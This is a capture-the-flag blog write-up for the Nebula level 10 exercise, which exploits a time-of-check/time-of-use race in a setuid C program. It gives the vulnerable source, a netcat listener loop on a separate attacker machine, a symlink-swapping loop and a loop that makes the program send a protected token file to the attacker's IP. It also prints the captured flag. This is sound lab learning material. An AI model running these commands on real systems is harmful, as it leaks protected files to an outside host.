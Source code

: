```yaml
---
layout: post
title: "Exploit Exercises - Nebula 10"
date: 2011-12-11T07:48:00-05:00
comments: true
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
---
```


[Challenge 10](http://exploit-exercises.com/nebula/level10) is another nostalgic one for me. Back when I was first starting with linux, I remember reading about overflows and race conditions.  This challenge is the latter, a race condition. 

We're given a C/C++ app to exploit:

```
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
 char *file;
 char *host;

 if(argc < 3) {
  printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
  exit(1);
 }

 file = argv[1];
 host = argv[2];

 if(access(argv[1], R_OK) == 0) {
  int fd;
  int ffd;
  int rc;
  struct sockaddr_in sin;
  char buffer[4096];

  printf("Connecting to %s:18211 .. ", host); fflush(stdout);

  fd = socket(AF_INET, SOCK_STREAM, 0);

  memset(&sin, 0, sizeof(struct sockaddr_in));
  sin.sin_family = AF_INET;
  sin.sin_addr.s_addr = inet_addr(host);
  sin.sin_port = htons(18211);

  if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
   printf("Unable to connect to host %s\n", host);
   exit(EXIT_FAILURE);
  }

#define HITHERE ".oO Oo.\n"
  if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
   printf("Unable to write banner to host %s\n", host);
   exit(EXIT_FAILURE);
  }
#undef HITHERE

  printf("Connected!\nSending file .. "); fflush(stdout);

  ffd = open(file, O_RDONLY);
  if(ffd == -1) {
   printf("Damn. Unable to open file\n");
   exit(EXIT_FAILURE);
  }

  rc = read(ffd, buffer, sizeof(buffer));
  if(rc == -1) {
   printf("Unable to read from file: %s\n", strerror(errno));
   exit(EXIT_FAILURE);
  }

  write(fd, buffer, rc);

  printf("wrote file!\n");

 } else {
  printf("You don't have access to %s\n", file);
 }
}
```

The problem with this code, is that it first checks to see if the user running the problem has access to the file (on line 24).  It then assumes for the rest of the execution of the program, that we *still* have access to it.  The point of this exercise is to trick the program by switching out the file while the program is running.  Hence a race condition. 

To set this one up, I used 2 machines, my Nebula machine, and another VM running [BackTrack Linux](http://www.backtrack-linux.org).  Any Linux should do, I just had this one handy.  The only requirement is [NetCat](http://nc110.sourceforge.net). 

On the BackTrack machine (10.1.1.132 for me), I ran 2 terminals.  The first contained:

```
root@bt:~# while :; do nc -l -p 18211 >> out.txt; done
```

The second contained:

```
root@bt:~# tail -f out.txt | grep -v ".oO Oo."
```

I ran both of these so that the first one would continuously open up a listening socket connection on port 18211 (per the vulnerable program), and append all information received to "out.txt".  The second command would continuously watch out.txt and output any lines that didn't have the little banner the vulnerable program uses.  That way I didn't get spammed with trash I didn't care about. 

Now on the Nebula machine, I ran 2 more terminals.  In the first, I ran:

```
level10@nebula:~$ while :; do ln -fs /tmp/token /tmp/token10; ln -fs /home/flag10/token /tmp/token10; done
```

And the second:

```
level10@nebula:~$ while :; do nice -n 20 ./flag10 /tmp/token10 10.1.1.132; done
```

These commands are pretty simple to pick apart.  They both are endless loops, just like the earlier NetCat session.  The first would create a symbolic link to /tmp/token10.  However, it would alternate between using /tmp/token (a blank file I made), and /home/flag10/token.  The idea is to try using /tmp/token when the access() is called in the vulnerable program, but then have /home/flag10/token be there when we actually send the file.  It's unreliable, but will eventually work.  The second command runs the vulnerable program, passing it the symlinked file and the BackTrack IP.  I used [nice](http://linux.about.com/library/cmd/blcmdl1_nice.htm), to lower the priority as low as possible, so that hopefully the symlinking loop would operate faster. 

When you have all of these terminals running, it's just a matter of time before you get the token sent to you.  Some iterations of flag10 will fail, some will succeed.  Just watch the second terminal on the BackTrack machine, and eventually you'll see the token come over.  You should see this flying across the screen:

{% blockquote %}615a2ce1-b2b5-4c76-8eed-8aa5c4015c27{% endblockquote %}

Just stop all the terminals, and you should be done with this challenge.  I did learn quite a bit on this one, as it was honestly my first race condition I'd ever had to exploit.  My original methodology was to use [GDB](http://www.gnu.org/s/gdb/) to start the program, and set a breakpoint after the initial access() was done.  Then switch the file manually, and resume.  This worked brilliantly, however I learned that when dealing with SUID programs, you can't use GDB on them, unless you run GDB as root.  This is a security design of Linux.  So instead, I had to go with the quirky commands.  I'm still interested in seeing if it could be done with a custom C++ app which would invoke flag10, and attach to the process using ptrace to duplicate my GDB idea.  I just don't know if it'll work or not.